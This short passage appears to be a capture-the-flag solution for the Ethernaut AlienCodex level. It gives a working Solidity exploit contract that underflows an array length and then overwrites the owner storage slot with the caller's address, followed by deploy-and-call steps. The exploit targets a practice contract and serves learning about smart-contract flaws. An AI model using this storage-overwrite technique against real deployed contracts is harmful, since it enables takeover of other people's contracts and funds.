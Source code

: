 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface AlienCodex {
    function revise(uint, bytes32) external;
    function make_contact() external; 
    function retract() external;
}

contract Exploit {

    function exploit (address _who) public {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        bytes32 myAddress = bytes32(uint256(uint160(tx.origin)));
        AlienCodex(_who).make_contact();
        AlienCodex(_who).retract();
        AlienCodex(_who).revise(index, myAddress);
    }
}
```
Call exploit() sending your contract instance

